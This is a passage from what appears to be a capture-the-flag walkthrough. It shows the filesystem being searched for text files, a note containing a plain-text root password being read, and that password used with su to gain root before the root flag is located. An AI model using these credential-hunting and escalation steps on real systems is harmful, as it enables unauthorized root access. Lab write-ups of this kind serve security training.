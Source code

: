 find / -name \*.txt -type f 2>/dev/null

/opt/note.txt

\[...snip...]

**Content of "note.txt"**

cat /opt/note.txt

Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here. Use them if you

need access to the root user account.

root:tr0ub13guM!@#123

#### **Escalate privileges to root on target host ()** <a href="#sk2wna6kw1bb" id="sk2wna6kw1bb"></a>

su root

Password: tr0ub13guM!@#123

whoami

root

id

uid=0(root) gid=0(root) groups=0(root)

**Find root.txt flag**

find / -name root.txt -type f 2>/dev/null

/root/root.txt

